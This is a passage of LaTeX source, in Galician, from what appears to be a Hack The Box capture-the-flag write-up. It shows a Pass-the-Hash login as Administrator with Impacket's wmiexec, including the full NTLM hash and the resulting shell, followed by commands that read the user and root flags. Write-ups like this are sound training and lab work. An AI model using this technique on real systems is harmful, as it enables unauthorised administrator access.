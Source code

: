 \documentclass[a4paper]{article}
\begin{document}
Pois agora xa podemos acceder facendo un \textit{PasstheHash (PtH)} con \textit{wmiexec}. 
        \begin{tcolorbox}[enhanced,attach boxed title to top center={yshift=-3mm,yshifttext=-1mm},
  colback=blue!5!white,colframe=blue!75!black,colbacktitle=green!80!black,
  title=De Interese,fonttitle=\bfseries,
  boxed title style={size=small,colframe=red!50!black} ]
E ademais como temos o hash do usuario \textbf{Administrator} podemos facer PtH sendo Administradores do sistema
        \end{tcolorbox}


        \vspace*{-0.4cm}
\subsection{Acceso como administrador}
                                   
        \begin{lstlisting}[language=Bash, caption=Acceso como administrador: PtH con wmiexec, linewidth=18.7cm]
$ wmiexec.py htb.local/Administrator@10.10.10.103 -hashes aad3b435b51404eeaad3b435b51404ee:f6b7160bfc91823792e0ac3a162c9267
Impacket v0.10.1.dev1+20220606.123812.ac35841f - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
htb\administrator
\end{lstlisting}

        \vspace*{-0.6cm}
\subsection{Flag user}
        \begin{lstlisting}[language=Bash, caption=Flag user.txt]
C:\>type c:\users\mrlky\desktop\user.txt\end{lstlisting}

        \vspace*{-0.4cm}
\subsection{Flag root}
        \begin{lstlisting}[language=Bash, caption=Flag root.txt]
C:\>type c:\users\administrator\desktop\root.txt\end{lstlisting}
\end{document}
